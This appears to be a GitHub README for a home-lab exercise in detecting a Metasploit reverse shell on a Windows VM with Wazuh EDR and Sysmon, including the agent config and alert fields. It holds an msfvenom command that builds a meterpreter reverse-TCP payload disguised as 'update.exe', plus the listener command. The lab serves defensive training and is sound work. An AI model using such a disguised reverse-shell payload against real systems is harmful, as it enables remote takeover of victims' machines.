





## Wazuh EDR Lab - Metasploit Payload Detection via Sysmon

Home lab for practicing SOC detection skills: simulating a reverse
shell attack delivered via a Metasploit-generated payload, and
detecting it on the endpoint using Wazuh EDR with Sysmon telemetry.

---

## Lab Topology

| Host           | IP              | Role                              |
|----------------|-----------------|-----------------------------------|
| Ubuntu Desktop | 192.168.56.102  | Attacker                          |
| Windows 11     | 192.168.56.103  | Victim - Wazuh Agent + Sysmon     |
| Ubuntu Server  | 192.168.56.101  | Wazuh Manager                     |

All hosts sit on the same isolated VirtualBox network.

---

## Tools

| Tool              | Role                                         |
|-------------------|----------------------------------------------|
| **Wazuh Manager** | Log collection, correlation, alerting        |
| **Wazuh Agent**   | Endpoint telemetry shipping (Windows 11)     |
| **Sysmon**        | Endpoint event generation (process, network) |
| **msfvenom**      | Payload generation (attacker-side)           |
| **Metasploit**    | Listener and session handler (attacker-side) |

---

## Scenarios

| #  | Scenario                              | Status      |
|----|---------------------------------------|-------------|
| 01 | Metasploit Reverse Shell Detection    | ✅ Complete |

---

### Scenario 01 - Metasploit Reverse Shell Detection

**Goal:** deliver a reverse shell payload to the Windows victim,
confirm Sysmon captures the process creation event (EventID 1), and
verify Wazuh generates an alert visible in the dashboard.

**Attacker host:** Ubuntu Desktop (192.168.56.102)

**Attack commands:**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.56.102 LPORT=4444 -f exe -o update.exe

msf exploit(multi/handler) > run
```




The payload was transferred to the victim machine and executed
manually. Upon execution, Metasploit received a reverse TCP connection
back from the victim:



---

**Sysmon — EventID 1 on the victim:**



Sysmon on the Windows victim logged EventID 1
at the moment update.exe was launched. The event captures the full
image path, command line, parent process, and the
SHA256 hash of the executable - all the key indicators an analyst
would use to investigate a suspicious process.

---

**Wazuh Agent config - Sysmon channel:**



The Wazuh Agent was configured to read the Sysmon event channel
via the `eventchannel` log format, which is required for the manager
to receive and decode Windows event log entries from Sysmon:

```xml
<localfile>
  <location>Microsoft-Windows-Sysmon/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```

---

**Alert detail - full event fields:**



The decoded alert shows the Sysmon-sourced fields alongside the
Wazuh rule metadata: the image path of the launched executable, the
EventID confirming this is a process creation event, and the rule
description assigned by Wazuh's Sysmon ruleset.

---
